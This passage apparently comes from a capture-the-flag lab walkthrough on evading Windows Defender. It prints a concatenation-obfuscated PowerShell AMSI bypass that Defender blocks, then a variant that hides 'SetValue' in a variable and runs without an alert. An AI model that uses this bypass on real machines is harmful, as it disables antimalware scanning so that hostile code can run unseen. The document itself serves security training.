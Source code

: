 <pre class=" language-powershell" tabindex="0"><code class=" language-powershell"><span class="token function">PS</span> M:\\&gt; <span class="token namespace">[Ref]</span><span class="token punctuation">.</span>Assembly<span class="token punctuation">.</span>GetType<span class="token punctuation">(</span><span class="token string">'System.Management.Automation.'</span><span class="token operator">+</span><span class="token string">'Amsi'</span><span class="token operator">+</span><span class="token string">'Utils'</span><span class="token punctuation">)</span><span class="token punctuation">.</span>GetField<span class="token punctuation">(</span><span class="token string">'amsi'</span><span class="token operator">+</span><span class="token string">'Init'</span><span class="token operator">+</span><span class="token string">'Failed'</span><span class="token punctuation">,</span><span class="token string">'No'</span><span class="token operator">+</span><span class="token string">'nPublic,S'</span><span class="token operator">+</span><span class="token string">'tatic'</span><span class="token punctuation">)</span><span class="token punctuation">.</span>SetValue<span class="token punctuation">(</span><span class="token variable">$null</span><span class="token punctuation">,</span><span class="token boolean">$true</span><span class="token punctuation">)</span>
At line:1 char:1
<span class="token operator">+</span> <span class="token namespace">[Ref]</span><span class="token punctuation">.</span>Assembly<span class="token punctuation">.</span>GetType<span class="token punctuation">(</span><span class="token string">'System.Management.Automation.'</span><span class="token operator">+</span><span class="token string">'Amsi'</span><span class="token operator">+</span><span class="token string">'Utils'</span> <span class="token punctuation">.</span><span class="token punctuation">.</span><span class="token punctuation">.</span>
<span class="token operator">+</span> ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software<span class="token punctuation">.</span>
    <span class="token operator">+</span> CategoryInfo          : ParserError: <span class="token punctuation">(</span>:<span class="token punctuation">)</span> <span class="token punctuation">[</span><span class="token punctuation">]</span><span class="token punctuation">,</span> ParentContainsErrorRecordException
    <span class="token operator">+</span> FullyQualifiedErrorId : ScriptContainedMaliciousContent

<span class="token function">PS</span> M:\\&gt;
</code></pre>
<p>This is interesting, there doesn’t seem to be any parameter values 
that would contribute to this alert? This must mean that Defender is 
alerting on the presence of each cmdlet together to determine it is a 
malicious snippet. To solve this problem we need to separate the 
cmdlet(s) from the rest of the snippet. This technique is known as 
separation of related code and is often seen along with concatenation, 
we will cover this concept further in task 8.</p>
<pre class=" language-powershell" tabindex="0"><code class=" language-powershell"><span class="token function">PS</span> M:\\&gt; <span class="token variable">$Value</span>=<span class="token string">"SetValue"</span>
<span class="token function">PS</span> M:\\&gt; <span class="token namespace">[Ref]</span><span class="token punctuation">.</span>Assembly<span class="token punctuation">.</span>GetType<span class="token punctuation">(</span><span class="token string">'System.Management.Automation.'</span><span class="token operator">+</span><span class="token string">'Amsi'</span><span class="token operator">+</span><span class="token string">'Utils'</span><span class="token punctuation">)</span><span class="token punctuation">.</span>GetField<span class="token punctuation">(</span><span class="token string">'amsi'</span><span class="token operator">+</span><span class="token string">'Init'</span><span class="token operator">+</span><span class="token string">'Failed'</span><span class="token punctuation">,</span><span class="token string">'No'</span><span class="token operator">+</span><span class="token string">'nPublic,S'</span><span class="token operator">+</span><span class="token string">'tatic'</span><span class="token punctuation">)</span><span class="token punctuation">.</span><span class="token variable">$Value</span><span class="token punctuation">(</span><span class="token variable">$null</span><span class="token punctuation">,</span><span class="token boolean">$true</span><span class="token punctuation">)</span>
<span class="token function">PS</span> M:\\&gt;
</code></pre>
<p>Success! There are no more alerts so we now have a clean snippet that we can use! Submit this clean code snippet to <code>http://MACHINE_IP</code> and obtain the flag.</p></details>
